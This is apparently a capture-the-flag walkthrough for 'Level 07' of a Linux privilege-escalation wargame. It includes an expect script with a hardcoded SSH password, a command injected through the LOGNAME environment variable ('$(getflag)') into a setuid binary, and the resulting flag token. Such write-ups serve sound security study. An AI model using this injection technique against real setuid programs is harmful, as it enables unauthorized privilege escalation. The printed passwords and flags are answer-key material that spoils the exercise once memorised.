 # Level 07
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level07@$ip -p 4242 "LOGNAME=\$\\\(getflag\\\) ; ./level07"
	expect "sword:"
	send "wiok45aaoguiboiki2tuin6ub\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- Run its only executable file `level07`
	```sh
	$ ./level07
	```
- Use `ltrace` utility to trace the libraries calls
	```sh
	$ ltrace ./level07
	```
- Set the environmental variable `LOGNAME` to the `getflag` exploit
	```sh
	$ LOGNAME=$\(getflag\)
	```
- Run the file `level07` to get the flag
	```sh
	$ ./level07
	```
- With the token provided `fiumuikeil55xe9cu4dood66h` switch to the next user level
	```sh
	$ su level08
	Password: fiumuikeil55xe9cu4dood66h
	```
